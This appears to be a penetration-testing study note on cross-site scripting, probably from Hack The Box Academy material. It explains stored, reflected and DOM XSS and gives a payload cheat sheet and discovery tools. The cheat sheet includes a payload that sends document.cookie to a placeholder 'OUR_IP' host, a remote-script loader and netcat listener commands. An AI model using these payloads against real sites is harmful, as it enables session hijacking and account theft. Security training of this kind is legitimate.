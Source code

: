 # Cross Site Scripting (XSS) Notes

Execution of JavaScript code in an input field. Inherently a client focused vulnerability and can be equated to a medium risk.

|Type| 	Description|
|:----|:----|
|Stored (Persistent) XSS 	|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|Reflected (Non-Persistent) XSS 	|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|DOM-based XSS 	|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

## Cheat Sheet

|Code 	|Description|
|:----|:----|
|XSS| Payloads 	|
|<script>alert(window.origin)</script> 	|Basic XSS Payload|
|<plaintext> |	Basic XSS Payload|
|<script>print()</script> |	Basic XSS Payload|
|\<img src="" onerror=alert(window.origin)>\ 	|HTML-based XSS Payload|
|<script>document.body.style.background = "#141d2b"</script> 	|Change Background Color|
|<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script> |	Change Background Image|
|<script>document.title = 'HackTheBox Academy'</script> 	|Change Website Title|
|<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script> 	|Overwrite website's main body|
|<script>document.getElementById('urlform').remove();</script> 	|Remove certain HTML element|
|<script src="http://OUR_IP/script.js"></script>| 	Load remote script|
|<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script> 	|Send Cookie details to us
Commands 	|
|python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 	|Run xsstrike on a url parameter|
|sudo nc -lvnp 80 	|Start netcat listener|
|sudo php -S 0.0.0.0:80 	|Start PHP server|


## Stored XSS

If the value gets stored in say the DB and is pulled up for any user it's stored.

Typical payload
```
<script>alert('1')</script>
```

## Reflected XSS

Only displayed for the current user, usually from input placed in. Perfect for phishing or csrf type of attacks.

Display cookie values

```
<script>alert(document.cookie)</script>
```

## DOM XSS

While reflected XSS sends the input data to the back-end server through HTTP requests, DOM XSS is completely processed on the client-side through JavaScript. DOM XSS occurs when JavaScript is used to change the page source through the Document Object Model (DOM).

For DOM XSS there are two definitions to understand. The `Source` is the JavaScript object that takes the user input, and it can be any input parameter. The `Sink` is the function that writes the user input to a DOM Object. If the Sink doesn't properly sanitize the input we could get XSS. Common DOM objects:
- document.write()
- DOM.innerHTML
- DOM.outerHTML

JQuery functions that write to the DOM:
- add()
- after()
- append()

Other payload

```
<img src="" onerror=alert(window.origin)>
```

## XSS Discovery 

### Automated

We can use automated tools like Nessus, Burp Pro, or ZAP

Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser). We can try XSS Strike by cloning it to our VM with git clone

```
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

### Manual

Payload lists: 
- [Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
- [xss-payload-list](https://github.com/payloadbox/xss-payload-list)

Using fuzzers like ffuf we can take these lists and test parameters like this.


### Code Review

Reviewing code would be the quickest way to check, but requires access to the code for it to work. 

